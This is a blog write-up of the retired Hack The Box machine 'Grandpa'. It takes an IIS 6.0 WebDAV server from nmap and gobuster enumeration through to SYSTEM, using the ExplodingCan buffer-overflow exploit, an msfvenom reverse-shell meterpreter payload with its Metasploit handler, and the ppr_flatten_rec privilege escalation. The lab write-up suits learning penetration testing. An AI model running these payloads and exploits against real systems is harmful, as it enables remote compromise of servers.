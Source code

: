 ```yaml
---
layout: post
title: "HTB-Grandpa"
categories: HTB-Walkthrough
---
```


![grandpa1](/assets/img/grandpa/grandpa1.png)


Grandpa is another OSCP-like box from the HTB 'retired' archive.

It's the Buffer Overflow one!

nmap first as always.

<h3>Nmap</h3>

```
nmap -sV -Pn -p- 10.10.10.14 |tee -a gp.txt
```

The results are limited.

```

Nmap scan report for 10.10.10.14
Host is up (0.18s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Scan again, with default nse scripts `-sC`

`nmap -sVC 10.10.10.14`

```

Nmap scan report for 10.10.10.14
Host is up (0.13s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Wed, 11 Mar 2020 09:56:45 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

<h4>IIS 6.0 running WebDAV</h4>


Scan again, this time checking for vulnerabilities with the `vuln` scripts

`nmap -sV --script=vuln 10.10.10.14`

```
Segmentation fault
```

We can crash the server!!!
It could be vulnerable to a `Buffer Overflow`.
 
Before we persue this, lets check out the directories.


<hr width="250" size="6">



<h3>Gobuster</h3>


```
gobuster dir -u http://10.10.10.14 -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -t 40
```

That was a fast scan.

```

/Images (Status: 301)
/_private (Status: 403)
/_vti_cnf (Status: 403)
/_vti_log (Status: 403)
/_vti_pvt (Status: 403)
/_vti_txt (Status: 403)
/_vti_bin (Status: 301)
/_vti_bin/_vti_adm/admin.dll (Status: 200)
/_vti_bin/_vti_aut/author.dll (Status: 200)
/_vti_bin/shtml.dll (Status: 200)
/aspnet_client (Status: 403)
/images (Status: 301)

```


`http://10.10.10.14/_vti_bin/shtml.dll`

```
Cannot run the FrontPage Server Extensions on this page: ""
```


`/_vti_bin/_vti_adm/admin.dll`

![admindll](/assets/img/grandpa/gp-admindll.png)



`/_vti_bin/_vti_aut/author.dll`

![authordll](/assets/img/grandpa/gp-authordll.png)


`http://10.10.10.14/images/`

![denied](/assets/img/grandpa/gp-denied.png)


<hr width="250" size="6">


<h3>Searchsploit</h3>


`searchsploit iis 6` returns a long list.


`searchsploit iis 6.0 |grep WebDAV |grep -v '/dos/'` is better.

![searchsploit](/assets/img/grandpa/gp-searchsploit.png)


<hr width="250" size="6">

We can read the exploit with

`searchsploit -x 41738`

Unfamiliar with this exploit, and not wanting to simply swap out the shellcode and fire it off,
I used google to do a bit more research.

[This review](https://www.secarma.com/labs/explodingcan-a-vulnerability-review.html) looks at the vulnerability, and gives
context for the exploit.

It is well worth a read!


<hr width="250" size="6">


Searching again on Google for more info, using the exploit's name `ExplodingCan`, I found [another script](https://github.com/danigargu/explodingcan).

So we now have two versions of essentially the same exploit. We can try them both!



`searchsploit -m 41738` will copy the first exploit to the pwd (present working directory)

```

 searchsploit -m 41738
  Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/41738
     Path: /usr/share/exploitdb/exploits/windows/remote/41738.py
File Type: troff or preprocessor input, ASCII text, with very long lines, with CRLF line terminators

Copied to: /root/HTB/vip/grandpa/41738.py

```


<h4>MSFVenom</h4>

```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.10 LPORT=443 | tee shellcode
```


copypaste the shellcode to replace the 'poppin-calc' shellcode of the first exploit.

Fire up metasploit

```
service postgresql start
msfconsole
```

Because we used a staged meterpreter payload, we'll need to use the exploit/multi/handler.

```

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.10.14.10
lhost => 10.10.14.10
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.10:443 

```


The first exploit didn't work straight away, so a bit more fiddling may be required; so I take a look at the second.

I copy it from github as explodingcan.py, and read it.

I had used the msfvenom command to produce the file `shellcode`, so the required command to run it is

`python explodingcan.py http://10.10.10.14 shellcode`


![excan-exploit](/assets/img/grandpa/gp-excan-exploit.png)

![meterpreter](/assets/img/grandpa/gp-meterpreter1.png)


So we've got a meterpreter shell. The second [exploit](https://github.com/danigargu/explodingcan/blob/master/explodingcan.py) was straight-forward to impliment. 

We need to background the session and look for a path to privilege-escalation.

![post1](/assets/img/grandpa/gp-post1.png)


Select `exploit/windows/local/ppr_flatten_rec`
use `show options` to set the variables.

Get SYSTEM shell.

![system](/assets/img/grandpa/gp-system.png)


Now it's a simple task to get the flags:

```
meterpreter > cat user.txt
bdxxxxxxxxxxxxxxxxxxxxxxxxxxxx69

meterpreter > cat root.txt
93xxxxxxxxxxxxxxxxxxxxxxxxxxxx7b

```


:)


